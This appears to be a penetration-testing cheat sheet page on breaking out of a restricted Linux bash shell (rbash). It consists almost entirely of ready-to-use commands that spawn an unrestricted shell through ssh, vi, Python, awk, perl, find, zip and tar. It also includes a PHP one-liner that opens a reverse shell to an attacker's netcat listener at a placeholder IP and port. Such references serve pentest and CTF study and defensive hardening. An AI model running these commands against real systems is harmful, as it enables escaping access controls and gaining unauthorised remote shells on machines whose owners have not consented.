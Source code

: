# Linux PrivEsc CheatSheet
[Home](../index.md) | [CheatSheets](../cheatsheets.md) | [About](../about.md)

## Restricted Bash Shell Breakout:
                                                                	|
| Command                                                                                           	| Notes                                                                                                                                    	|
|---------------------------------------------------------------------------------------------------	|------------------------------------------------------------------------------------------------------------------------------------------	|
| $SHELL                                                                                            	| Determine if we are in an rbash shell (/bin/rbash)                                                                                       	|
| ssh user@ip -t "bash --noprofile"                                                                 	| Bypass rbash if we can use SSH along with a known username and password                                                                  	|
| vi<br>:set shell=/bin/bash<br>:shell                                                              	| Use vi or vim to breakout of rbash and use /bin/bash, alternatively could use any other shell. E.g zsh<br>                               	|
| php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'                            	| Use PHP to create a reverse shell connection to a netcat listener on our machine @ IP:PORT, note we need to start <br>a netcat listener. 	|
| python -c 'import os; os.system("/bin/bash");'<br>python3 -c 'import os; os.system("/bin/bash");' 	| Use Python if available on the target system to escape rbash and spawn a generic bash shell.                                             	|
| awk 'BEGIN {system("/bin/bash")}'                                                                 	| Escape rbash using AWK                                                                                                                   	|
| perl -e 'system("/bin/bash");'                                                                    	| Use PERL to escape rbash and spawn a bash shell                                                                                          	|
| find / -name test -exec /bin/sh or /bin/bash \;                                                   	| Use the find command to execute the /bin/bash binary                                                                                     	|
| cp /bin/bash .                                                                                    	| Copy the /bin/bash binary to your current directory, this only works if / is allowed.                                                    	|
| zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"                                  	| Use the zip command to spawn a bash shell, create a zip file first using touch.                                                          	|
| tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash                       	| Use the tar command to execute the bash binary upon archive creation.                                                                    	|
